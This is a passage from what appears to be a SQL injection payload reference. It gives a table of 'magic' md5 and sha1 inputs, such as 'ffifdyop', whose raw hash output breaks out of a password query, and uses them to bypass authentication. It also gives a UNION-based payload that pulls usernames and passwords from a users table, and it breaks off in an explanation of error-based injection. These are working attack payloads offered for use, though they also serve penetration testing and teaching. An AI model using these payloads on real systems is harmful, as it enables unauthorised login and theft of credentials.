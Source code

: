 An attacker can craft a payload where the result of the `md5($password,true)` function will contain a quote and escape the SQL context, for example with `' or 'SOMETHING`.


| Hash | Input    | Output (Raw)            |  Payload  |
| ---- | -------- | ----------------------- | --------- |
| md5  | ffifdyop | `'or'6�]��!r,��b`       | `'or'`    |
| md5  | 129581926211651571912466741651878684928 | `ÚT0Do#ßÁ'or'8` | `'or'` |
| sha1 | 3fDf     | `Q�u'='�@�[�t�- o��_-!` | `'='`     |
| sha1 | 178374   | `ÜÛ¾}_ia!8Wm'/*´Õ`      | `'/*`     |
| sha1 | 17       | `Ùp2ûjww%6\`            | `\`       |

This behavior can be abused to bypass the authentication by escaping the context.

```php
sql1 = "SELECT * FROM admin WHERE pass = '".md5("ffifdyop", true)."'";
sql1 = "SELECT * FROM admin WHERE pass = ''or'6�]��!r,��b'";
```


## UNION Based Injection

In a standard SQL query, data is retrieved from one table. The `UNION` operator allows multiple `SELECT` statements to be combined. If an application is vulnerable to SQL injection, an attacker can inject a crafted SQL query that appends a `UNION` statement to the original query.

Let's assume a vulnerable web application retrieves product details based on a product ID from a database: 

```sql
SELECT product_name, product_price FROM products WHERE product_id = 'input_id';
```

An attacker could modify the `input_id` to include the data from another table like `users`.

```SQL
1' UNION SELECT username, password FROM users --
```

After submitting our payload, the query become the following SQL:

```SQL
SELECT product_name, product_price FROM products WHERE product_id = '1' UNION SELECT username, password FROM users --';
```

:warning: The 2 SELECT clauses must have the same number of columns.


## Error Based Injection

Error-Based SQL Injection is a technique that relies on the error messages returned from the database to gather information about the database structure. By manipulating the input parameters of an SQL query, an attacker can make the database generate error messages. These errors can reveal critical details about the database, such as table names, column names, and data types, which can be used to craft further attacks.
